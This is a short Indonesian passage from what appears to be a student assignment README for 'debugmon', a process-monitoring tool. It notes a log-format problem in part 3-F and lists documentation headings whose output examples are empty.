- Fitur debugmon ini menampilkan proses yang sedang berjalan pada user beserta PID, command, CPU usage, dan memory usage.

## Kendala

Untuk kendala ada 1 di penyelesaian 3-F,

- Untuk log tidak sesuai dengan format yang diinginkan dari proses `daemon`, `stop`, dan `revert`. dikarenakan log yang dicatat bukan `"RUNNING"`. tetapi hal yang lain.

## Dokumentasi

- Untuk output dari command `./debugmon list irul`:


- Untuk output dari command `./debugmon daemon irul` yang dihentikan dengan `./debugmon stop irul`:


- Untuk output dari command `./debugmon revert irul` **menggunakan `sudo`**:


- Untuk isi dari `debugmon.log`:


